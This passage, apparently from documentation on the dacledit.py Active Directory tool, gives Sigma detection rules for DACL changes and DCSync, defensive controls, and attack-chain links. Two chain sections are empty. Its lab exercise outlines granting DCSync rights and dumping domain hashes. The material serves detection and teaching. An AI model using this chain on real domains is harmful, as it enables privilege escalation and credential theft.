title: AD DACL Modified on Sensitive Object
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 4670
    ObjectName|contains:
      - 'CN=Domain Admins'
      - 'CN=Enterprise Admins'
      - 'CN=Schema Admins'
      - 'DC=corp,DC=local'
  condition: selection
level: critical
```

Matches DACL modifications on the highest value objects. Very high signal; false positive rate should be near zero in most environments.

```yaml
title: NTSD Attribute Modification via LDAP
logsource:
  product: windows
  service: security
detection:
  selection:
    EventID: 5136
    AttributeLDAPDisplayName: 'nTSecurityDescriptor'
    OperationType: 'Value Added'
  condition: selection
level: high
```

Catches all DACL writes. Needs tuning against legitimate administrative changes but those are usually traceable to specific administrator accounts.

```yaml
title: DCSync After Recent DACL Change
logsource:
  product: windows
  service: security
detection:
  dacl_change:
    EventID: 4670
    ObjectName|startswith: 'DC='
  dcsync_attempt:
    EventID: 4662
    AccessMask: '0x100'
    Properties|contains: '1131f6aa-9c07-11d1-f79f-00c04fc2dcd2'
  timeframe: 1h
  condition: dacl_change and dcsync_attempt
level: critical
```

Correlates a domain root DACL change with a subsequent DCSync attempt. Diagnostic of the canonical `dacledit.py` + `secretsdump.py` attack chain.


## Detection and defense

### Detection opportunities

ACL based attacks are infamous for being hard to detect because the underlying operations (LDAP reads and writes) are routine in AD environments. The detection strategy combines specific high signal events with behavioral baselining.

**Event 4670 on sensitive objects.** The gold standard. Enable "Audit Directory Service Changes" in Advanced Audit Policy. Alert on modifications to the Domain Admins, Enterprise Admins, Schema Admins, domain root, and any Tier 0 assets. False positive rate should be extremely low.

**Event 5136 with nTSecurityDescriptor.** Broader catch. All DACL modifications. Tune against expected administrator accounts.

**DCSync after DACL change correlation.** The canonical chain. A DACL change on the domain root followed within a short window by a DCSync attempt from a non DC is essentially diagnostic of `dacledit.py` + `secretsdump.py`.

**LDAP search volume on nTSecurityDescriptor.** Bulk reading of this attribute is unusual except for specific administrative tools (BloodHound, SharpHound, aclpwn). Any of these tools running against production AD is suspicious.

**Microsoft Defender for Identity.** MDI specifically detects several ACL abuse patterns and produces actionable alerts.

### Preventive controls

- **Enable Advanced Audit Policy: "Directory Service Changes" set to Success and Failure.** Default is off. Enable at the domain controllers audit policy level. This is what enables 4670.
- **Enable Advanced Audit Policy: "Directory Service Access" set to Success and Failure.** Enables 4662 at sufficient detail.
- **Enforce LDAP signing and channel binding.** Default from Server 2022 23H2. Prevents some relay attacks that could otherwise produce the credentials `dacledit.py` consumes.
- **Reduce WriteDacl entry points.** Run BloodHound regularly. Identify principals with unexpected WriteDacl on sensitive objects. Review the chain: who has WriteDacl on those principals, and so on back to whoever has Tier 0 control. Legitimate delegations should be documented; everything else should be removed.
- **Tier 0 isolation.** Admins for Tier 0 assets (DCs, ADCS, Tier 0 service accounts) should never be members of unrelated Tier 1 or Tier 2 resources. Cross tier memberships create WriteDacl inheritance opportunities.
- **adminSDHolder protection.** Works by default for members of protected groups. Do not disable it.
- **Protected Users group for privileged accounts.** Prevents NTLM authentication for members. Does not directly prevent ACL abuse but reduces the credential theft attack surface.
- **LDAPS with certificate validation.** Require LDAPS from all clients. Prevents some attack patterns that would otherwise produce credentials.
- **Audit tooling deployment.** Semperis DSP, Quest Change Auditor, and Microsoft Defender for Identity all provide deeper AD visibility than the native Windows event log.
- **Regular DACL auditing.** Periodic review of DACLs on Tier 0 objects. Most enterprises do not do this routinely; implementing it as a quarterly compliance task finds most attack enabling permission drift.


## Related tools and attack chains

`dacledit.py` is a central tool in the AD Modification category, complementing the two previously documented tools:

- [`addcomputer.py`](addcomputer.md) creates new computer accounts, which `dacledit.py` can then grant rights on or grant rights to.
- [`rbcd.py`](rbcd.md) modifies the `msDS-AllowedToActOnBehalfOfOtherIdentity` attribute specifically. This is a specialized case of what `dacledit.py` handles generally (ACL on the computer object), but `rbcd.py` is more convenient for the specific RBCD workflow.
- [`owneredit.py`](owneredit.md) modifies object ownership. Ownership grants implicit WriteDacl rights, so `owneredit.py` is often used upstream of `dacledit.py` when the attacker has WriteOwner but not WriteDacl.

### The canonical WriteDacl to Domain Admin chain



The chain executes in minutes once the initial WriteDacl has been secured. The `krbtgt` hash obtained at step F enables Golden Ticket attacks documented in [`ticketer.py`](../02_kerberos_attacks/ticketer.md), providing persistence even after the DACL is restored.

### The canonical GenericAll on computer to SYSTEM on host chain



Two variants. Both end with SYSTEM on the target computer. The Shadow Credentials variant works without needing a second computer account; the RBCD variant works in environments where KeyCredentialLink is monitored.

### Tools that feed `dacledit.py`

Any credential source that produces a principal with the required rights:

- [`secretsdump.py`](../03_credential_access/secretsdump.md) for extracted NT hashes.
- [`ntlmrelayx.py`](../06_relay_attacks/ntlmrelayx.md) for relay capture.
- [`getTGT.py`](../02_kerberos_attacks/getTGT.md) for Kerberos credentials.
- Direct credential phishing or theft from any source.

### Tools that `dacledit.py` feeds

Essentially every tool in Credential Access and lateral movement becomes usable once the right ACE is added:

- [`secretsdump.py`](../03_credential_access/secretsdump.md) DCSync mode after granting DCSync rights.
- [`psexec.py`](../04_remote_execution/psexec.md) and siblings after granting access to specific computer accounts.
- [`getST.py`](../02_kerberos_attacks/getST.md) after RBCD configuration.
- [`ticketer.py`](../02_kerberos_attacks/ticketer.md) after krbtgt extraction.


## Further reading

- **`[MS-ADTS]`: Active Directory Technical Specification.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-adts/`. Section 5.1.3 (Security Descriptors) and section 6.1.3 (well known objects including extended rights) are essential.
- **`[MS-DTYP]`: Windows Data Types.** `https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dtyp/`. Section 2.4 covers security descriptors, ACLs, and ACEs in detail.
- **Microsoft Control Access Rights.** `https://learn.microsoft.com/en-us/windows/win32/adschema/extended-rights`. List of extended rights and their GUIDs.
- **Will Schroeder "An ACE Up The Sleeve"** at various SpecterOps resources. Foundational reading on AD ACL attack paths.
- **Andy Robbins "BloodHound Cheat Sheet"** at `https://bloodhoundenterprise.io/resources/`. Practical identification of ACL attack paths with BloodHound.
- **PowerSploit PowerView `Add-DomainObjectAcl`** documentation. The Windows equivalent tool and the predecessor whose functionality `dacledit.py` replicates on Linux.
- **Charlie Bromberg (ShutdownRepo) DACL abuse resources** at `https://www.thehacker.recipes/ad/movement/dacl`. Comprehensive DACL attack technique documentation by the `dacledit.py` author.
- **Synacktiv "gPLink Spoofing: When Modifying a GPO's Link is Enough"** (April 2024). Recent research on OU level attacks via DACL abuse.
- **Benjamin Delpy Mimikatz DCSync documentation.** Historical context for DCSync; the attack that `dacledit.py` most commonly enables.
- **Microsoft Defender for Identity DACL abuse detections** at `https://learn.microsoft.com/en-us/defender-for-identity/`. Which specific DACL attack patterns MDI catches.
- **MITRE ATT&CK T1222** at `https://attack.mitre.org/techniques/T1222/`. File and Directory Permissions Modification technique reference.
- **MITRE ATT&CK T1098.007 Additional Local or Domain Groups** for group membership attacks that WriteMembers enables.

If you want to internalize the mechanism, set up a lab with a misconfigured ACL (for example, a helpdesk user with GenericAll on a random user account). Run `dacledit.py -action read` against the target to see the current DACL. Then use `dacledit.py -action backup`, follow up with a `-action write` to grant yourself DCSync rights on the domain root using the helpdesk user's credentials, and run `secretsdump.py -just-dc` to dump the domain. Finally, run `dacledit.py -action restore` to clean up. The complete chain from "regular domain user" to "domain controller hashes" using a single misconfigured ACE takes five minutes in a lab and is essentially undetectable without specific auditing enabled. That experience makes concrete why ACL hygiene and audit policy configuration are among the highest leverage investments a defender can make in AD security.
